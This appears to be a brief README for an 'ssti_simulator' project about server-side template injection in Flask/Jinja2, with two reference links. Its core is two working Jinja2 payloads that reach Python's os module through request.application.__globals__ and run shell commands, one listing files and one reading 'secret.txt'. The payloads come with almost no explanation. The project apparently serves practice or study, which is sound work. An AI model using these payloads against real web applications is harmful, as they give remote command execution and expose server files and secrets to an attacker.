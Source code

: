 # ssti_simulator

## Remote Code Execution through SSTI
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secret.txt').read() }}

## Other Attack, don't know what to call it.
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

